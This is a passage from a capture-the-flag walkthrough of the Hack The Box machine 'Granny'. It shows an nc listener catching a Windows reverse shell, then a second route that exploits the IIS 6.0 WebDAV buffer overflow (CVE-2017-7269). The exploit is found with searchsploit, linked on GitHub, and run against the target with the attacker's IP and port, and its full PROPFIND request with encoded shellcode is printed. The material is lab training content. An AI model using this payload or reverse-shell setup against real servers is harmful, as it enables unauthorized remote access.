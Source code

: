     kali@kali:~/Desktop/tools/win$ nc -lvp 8082
    listening on [any] 8082 ...
    connect to [10.10.14.15] from granny.htb [10.10.10.15] 1031
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.

    c:\windows\system32\inetsrv>whoami
    whoami
    nt authority\network service

    c:\windows\system32\inetsrv>
    ```
And we have a shell.

## User Shell (Method 2 IIS 6.0 buffer overflow)

`iis 6.0` has a buffer overflow related to `webdav`

### Searchsploit
```bash
kali@kali:~/Desktop/htb/granny$ searchsploit iis 6.0 webdav buffer overflow
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow           | windows/remote/41738.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

A python exploit can be found [here](https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell).

Start a listener and run the exploit with the `kali` machines `ip` and `port`.

```bash
kali@kali:~/Desktop/htb/granny$ python git.py
usage:iis6webdav.py targetip targetport reverseip reverseport

kali@kali:~/Desktop/htb/granny$ python git.py granny.htb 80 10.10.14.15 1337
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa￦ﾽﾨ￧ﾡﾣ￧ﾝﾡ￧ﾄﾳ￦ﾤﾶ￤ﾝﾲ￧ﾨﾹ￤ﾭﾷ￤ﾽﾰ￧ﾕﾓ￧ﾩﾏ￤ﾡﾨ￥ﾙﾣ￦ﾵﾔ￦ﾡﾅ￣ﾥﾓ￥ﾁﾬ￥ﾕﾧ￦ﾝﾣ￣ﾍﾤ￤ﾘﾰ￧ﾡﾅ￦ﾥﾒ￥ﾐﾱ￤ﾱﾘ￦ﾩﾑ￧ﾉﾁ￤ﾈﾱ￧ﾀﾵ￥ﾡﾐ￣ﾙﾤ￦ﾱﾇ￣ﾔﾹ￥ﾑﾪ￥ﾀﾴ￥ﾑﾃ￧ﾝﾒ￥ﾁﾡ￣ﾈﾲ￦ﾵﾋ￦ﾰﾴ￣ﾉﾇ￦ﾉﾁ￣ﾝﾍ￥ﾅﾡ￥ﾡﾢ￤ﾝﾳ￥ﾉﾐ￣ﾙﾰ￧ﾕﾄ￦ﾡﾪ￣ﾍﾴ￤ﾹﾊ￧ﾡﾫ￤ﾥﾶ￤ﾹﾳ￤ﾱﾪ￥ﾝﾺ￦ﾽﾱ￥ﾡﾊ￣ﾈﾰ￣ﾝﾮ￤ﾭﾉ￥ﾉﾍ￤ﾡﾣ￦ﾽﾌ￧ﾕﾖ￧ﾕﾵ￦ﾙﾯ￧ﾙﾨ￤ﾑﾍ￥ﾁﾰ￧ﾨﾶ￦ﾉﾋ￦ﾕﾗ￧ﾕﾐ￦ﾩﾲ￧ﾩﾫ￧ﾝﾢ￧ﾙﾘ￦ﾉﾈ￦ﾔﾱ￣ﾁﾔ￦ﾱﾹ￥ﾁﾊ￥ﾑﾢ￥ﾀﾳ￣ﾕﾷ￦ﾩﾷ￤ﾅﾄ￣ﾌﾴ￦ﾑﾶ￤ﾵﾆ￥ﾙﾔ￤ﾝﾬ￦ﾕﾃ￧ﾘﾲ￧ﾉﾸ￥ﾝﾩ￤ﾌﾸ￦ﾉﾲ￥ﾨﾰ ￥ﾤﾸ￥ﾑﾈ￈ﾂ￈ﾂ￡ﾋﾀ￦ﾠﾃ￦ﾱﾄ￥ﾉﾖ￤ﾬﾷ￦ﾱﾭ￤ﾽﾘ￥ﾡﾚ￧ﾥﾐ￤ﾥﾪ￥ﾡﾏ￤ﾩﾒ￤ﾅﾐ￦ﾙﾍ￡ﾏﾀ￦ﾠﾃ￤ﾠﾴ￦ﾔﾱ￦ﾽﾃ￦ﾹﾦ￧ﾑﾁ￤ﾍﾬ￡ﾏﾀ￦ﾠﾃ￥ﾍﾃ￦ﾩﾁ￧ﾁﾒ￣ﾌﾰ￥ﾡﾦ￤ﾉﾌ￧ﾁﾋ￦ﾍﾆ￥ﾅﾳ￧ﾥﾁ￧ﾩﾐ￤ﾩﾬ> (Not <locktoken:write1>) <http://localhost/bbbbbbb￧ﾥﾈ￦ﾅﾵ￤ﾽﾃ￦ﾽﾧ￦ﾭﾯ￤ﾡﾅ￣ﾙﾆ￦ﾝﾵ￤ﾐﾳ￣ﾡﾱ￥ﾝﾥ￥ﾩﾢ￥ﾐﾵ￥ﾙﾡ￦ﾥﾒ￦ﾩﾓ￥ﾅﾗ￣ﾡﾎ￥ﾥﾈ￦ﾍﾕ￤ﾥﾱ￤ﾍﾤ￦ﾑﾲ￣ﾑﾨ￤ﾝﾘ￧ﾅﾹ￣ﾍﾫ￦ﾭﾕ￦ﾵﾈ￥ﾁﾏ￧ﾩﾆ￣ﾑﾱ￦ﾽﾔ￧ﾑﾃ￥ﾥﾖ￦ﾽﾯ￧ﾍﾁ￣ﾑﾗ￦ﾅﾨ￧ﾩﾲ￣ﾝﾅ￤ﾵﾉ￥ﾝﾎ￥ﾑﾈ￤ﾰﾸ￣ﾙﾺ￣ﾕﾲ￦ﾉﾦ￦ﾹﾃ￤ﾡﾭ￣ﾕﾈ￦ﾅﾷ￤ﾵﾚ ￦ﾅﾴ￤ﾄﾳ￤ﾍﾥ￥ﾉﾲ￦ﾵﾩ￣ﾙﾱ￤ﾹﾤ￦ﾸﾹ￦ﾍﾓ￦ﾭﾤ￥ﾅﾆ￤ﾼﾰ￧ﾡﾯ￧ﾉﾓ￦ﾝﾐ￤ﾕﾓ￧ﾩﾣ￧ﾄﾹ￤ﾽﾓ￤ﾑﾖ￦ﾼﾶ￧ﾍﾹ￦ﾡﾷ￧ﾩﾖ￦ﾅﾊ￣ﾥﾅ￣ﾘﾹ￦ﾰﾹ￤ﾔﾱ￣ﾑﾲ￥ﾍﾥ￥ﾡﾊ￤ﾑﾎ￧ﾩﾄ￦ﾰﾵ￥ﾩﾖ￦ﾉﾁ￦ﾹﾲ￦ﾘﾱ￥ﾥﾙ￥ﾐﾳ￣ﾅﾂ￥ﾡﾥ￥ﾥﾁ￧ﾅﾐ￣ﾀﾶ￥ﾝﾷ￤ﾑﾗ￥ﾍﾡ￡ﾏﾀ￦ﾠﾃ￦ﾹﾏ￦ﾠﾀ￦ﾹﾏ￦ﾠﾀ￤ﾉﾇ￧ﾙﾪ￡ﾏﾀ￦ﾠﾃ ￤ﾉﾗ￤ﾽﾴ￥ﾥﾇ￥ﾈﾴ￤ﾭﾦ￤ﾭﾂ￧ﾑﾤ￧ﾡﾯ￦ﾂﾂ￦ﾠﾁ￥ﾄﾵ￧ﾉﾺ￧ﾑﾺ￤ﾵﾇ￤ﾑﾙ￥ﾝﾗ￫ﾄﾓ￦ﾠﾀ￣ﾅﾶ￦ﾹﾯ￢ﾓﾣ￦ﾠﾁ￡ﾑﾠ￦ﾠﾃￌﾀ￧﾿ﾾ￯﾿﾿￯﾿﾿￡ﾏﾀ￦ﾠﾃ￑ﾮ￦ﾠﾃ￧ﾅﾮ￧ﾑﾰ￡ﾐﾴ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁ￩ﾎﾑ￦ﾠﾀ￣ﾤﾱ￦ﾙﾮ￤ﾥﾕ￣ﾁﾒ￥ﾑﾫ￧ﾙﾫ￧ﾉﾊ￧ﾥﾡ￡ﾐﾜ￦ﾠﾃ￦ﾸﾅ￦ﾠﾀ￧ﾜﾲ￧ﾥﾨ￤ﾵﾩ￣ﾙﾬ￤ﾑﾨ￤ﾵﾰ￨ﾉﾆ￦ﾠﾀ￤ﾡﾷ￣ﾉﾓ￡ﾶﾪ￦ﾠﾂ ￦ﾽﾪ￤ﾌﾵ￡ﾏﾸ￦ﾠﾃ￢ﾧﾧ￦ﾠﾁVVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```
